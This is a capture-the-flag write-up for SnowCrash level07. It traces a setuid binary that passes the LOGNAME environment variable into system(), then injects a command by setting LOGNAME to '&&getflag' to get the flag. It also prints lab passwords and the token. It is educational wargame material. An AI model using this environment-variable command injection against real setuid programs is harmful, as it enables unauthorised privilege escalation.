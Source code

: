 ## Level07

Login as usual wih a password

```
ssh -i ~/.ssh/id_rsa.pub level07@127.0.0.1 -p 4242
wiok45aaoguiboiki2tuin6ub
```

We saw a level07 file as below

```
level07@SnowCrash:~$ ls -la
total 24
dr-x------ 1 level07 level07  120 Mar  5  2016 .
d--x--x--x 1 root    users    340 Aug 30  2015 ..
-r-x------ 1 level07 level07  220 Apr  3  2012 .bash_logout
-r-x------ 1 level07 level07 3518 Aug 30  2015 .bashrc
-rwsr-sr-x 1 flag07  level07 8805 Mar  5  2016 level07
-r-x------ 1 level07 level07  675 Apr  3  2012 .profile
```

So,let's dig in to this file, Overall, the output indicates that level07 is a 32-bit ELF(Executable and Linkable Format)executable file with setuid and setgid permissions, dynamically linked, and intended to run on GNU/Linux systems.
The presence of the text "ELF" in the output confirms that it is indeed a binary file.

<details>
  <summary> Binary file </summary>
  A binary file is a type of computer file that stores data in a format that is not human-readable. Unlike text files, which store data as a sequence of characters encoded using a character encoding scheme (such as ASCII or Unicode), binary files store data in a format that is directly understandable by a computer's hardware and software.
  </details>

```
level07@SnowCrash:~$ file level07
level07: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x26457afa9b557139fa4fd3039236d1bf541611d0, not stripped
```

I executed this file, and nothing came out.

```
level07@SnowCrash:~$ ./level07
level07
```

So, let's use **ltrace** command to understand/to debug the behavior of this program

```
level07@SnowCrash:~$ ltrace ./level07
__libc_start_main(0x8048514, 1, 0xbffff7b4, 0x80485b0, 0x8048620 <unfinished ...>
getegid()                                                                      = 2007
geteuid()                                                                      = 2007
setresgid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)                            = 0
setresuid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)                            = 0
getenv("LOGNAME")                                                              = "level07"
asprintf(0xbffff704, 0x8048688, 0xbfffff3c, 0xb7e5ee55, 0xb7fed280)            = 18
system("/bin/echo level07 "level07
 <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                         = 0
+++ exited (status 0) +++
```

From this output, it appears that the level07 program sets its group and user IDs, retrieves the username "level07", constructs a command string using that username, and then executes the command to print the username "level07".

So, I can see the **getenv("LOGNAME") = "level07"**

Given this spec, let's check the logname
(This tells the shell to substitute the value of the variable LOGNAME into the command before executing. As we saw before precedant exercise, need to put $ to get the value - traits of shell)

```
level07@SnowCrash:~$ echo $LOGNAME
level07
```

I did small tests as below.

```
level07@SnowCrash:~$ export LOGNAME="HELLO_WORLD";
level07@SnowCrash:~$ ./level07
HELLO_WORLD
```

1. `export LOGNAME="HELLO_WORLD"`: This command sets the value of the environment variable `LOGNAME` to "HELLO_WORLD". The `export` keyword makes this variable available to all subsequently executed programs within the current shell session.

2. `./level07`: This command executes the `level07` program in the current directory.

Therefore, when you run `./level07`, the `level07` program is executed with the value of the `LOGNAME` environment variable set to "HELLO_WORLD". As a result, the program prints "HELLO_WORLD" because that is the value of the `LOGNAME` variable that it uses during execution.

With the same logic, I use the command **export** and I got the very interesting informations.

```
level07@SnowCrash:~$ export
[1] 15957
declare -x HOME="/home/user/level07"
declare -x LANG="en_US.UTF-8"
declare -x LC_TERMINAL="iTerm2"
declare -x LC_TERMINAL_VERSION="3.4.22"
declare -x LESSCLOSE="/usr/bin/lesspipe %s %s"
declare -x LESSOPEN="| /usr/bin/lesspipe %s"
declare -x LOGNAME="&&getflag"
declare -x LS_COLORS="rs=0:di=01;34:ln=01;36:mh=00:pi=40;33:so=01;35:do=01;35:bd=40;33;01:cd=40;33;01:or=40;31;01:su=37;41:sg=30;43:ca=30;41:tw=30;42:ow=34;42:st=37;44:ex=01;32:*.tar=01;31:*.tgz=01;31:*.arj=01;31:*.taz=01;31:*.lzh=01;31:*.lzma=01;31:*.tlz=01;31:*.txz=01;31:*.zip=01;31:*.z=01;31:*.Z=01;31:*.dz=01;31:*.gz=01;31:*.lz=01;31:*.xz=01;31:*.bz2=01;31:*.bz=01;31:*.tbz=01;31:*.tbz2=01;31:*.tz=01;31:*.deb=01;31:*.rpm=01;31:*.jar=01;31:*.war=01;31:*.ear=01;31:*.sar=01;31:*.rar=01;31:*.ace=01;31:*.zoo=01;31:*.cpio=01;31:*.7z=01;31:*.rz=01;31:*.jpg=01;35:*.jpeg=01;35:*.gif=01;35:*.bmp=01;35:*.pbm=01;35:*.pgm=01;35:*.ppm=01;35:*.tga=01;35:*.xbm=01;35:*.xpm=01;35:*.tif=01;35:*.tiff=01;35:*.png=01;35:*.svg=01;35:*.svgz=01;35:*.mng=01;35:*.pcx=01;35:*.mov=01;35:*.mpg=01;35:*.mpeg=01;35:*.m2v=01;35:*.mkv=01;35:*.webm=01;35:*.ogm=01;35:*.mp4=01;35:*.m4v=01;35:*.mp4v=01;35:*.vob=01;35:*.qt=01;35:*.nuv=01;35:*.wmv=01;35:*.asf=01;35:*.rm=01;35:*.rmvb=01;35:*.flc=01;35:*.avi=01;35:*.fli=01;35:*.flv=01;35:*.gl=01;35:*.dl=01;35:*.xcf=01;35:*.xwd=01;35:*.yuv=01;35:*.cgm=01;35:*.emf=01;35:*.axv=01;35:*.anx=01;35:*.ogv=01;35:*.ogx=01;35:*.aac=00;36:*.au=00;36:*.flac=00;36:*.mid=00;36:*.midi=00;36:*.mka=00;36:*.mp3=00;36:*.mpc=00;36:*.ogg=00;36:*.ra=00;36:*.wav=00;36:*.axa=00;36:*.oga=00;36:*.spx=00;36:*.xspf=00;36:"
declare -x MAIL="/var/mail/level07"
declare -x OLDPWD="/home/user/level07"
declare -x PATH="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games"
declare -x PWD="/home/user/level07"
declare -x SHELL="/bin/bash"
declare -x SHLVL="1"
declare -x SSH_CLIENT="10.0.2.2 54751 4242"
declare -x SSH_CONNECTION="10.0.2.2 54751 10.0.2.15 4242"
declare -x SSH_TTY="/dev/pts/0"
declare -x TERM="xterm-256color"
declare -x USER="level07"
Check flag.Here is your token :
Nope there is no token here for you sorry. Try again :)
[1]+  Done                    export
```

Take a look at **declare -x LOGNAME="&&getflag"**.

The command `declare -x LOGNAME="&&getflag"` is used to create or modify an environment variable named `LOGNAME` and set its value to `"&&getflag"`.

Here's a breakdown of each part of the command:

- `declare`: This is a bash built-in command used to declare variables and give them attributes. In this case, it's used to declare an environment variable.

- `-x`: This option is used to export the variable to the environment. It makes the variable available to all subsequently executed programs within the current shell session.

- `LOGNAME`: This is the name of the environment variable being declared.

- `"&&getflag"`: This is the value assigned to the `LOGNAME` variable. In this case, it's the string `"&&getflag"`. The `&&` operator is a logical AND operator in bash, and `getflag` appears to be a command. So, the value of `LOGNAME` is set to the string `"&&getflag"`, which includes the `&&` operator followed by the command `getflag`.

So, based on this info, let's assign the value `LOGNAME="&&getflag"`with export command.

When you run the command `export LOGNAME="&&getflag"`, you are setting the value of the `LOGNAME` environment variable to `"&&getflag"` and exporting it. This means that `LOGNAME` will be available to all subsequently executed programs within the current shell session. And we got the token after execution of the file of ./level07

```
level07@SnowCrash:~$ export LOGNAME="&&getflag"
level07@SnowCrash:~$ ./level07

Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```

<details>
  <summary> Password </summary>
  fiumuikeil55xe9cu4dood66h
  </details>
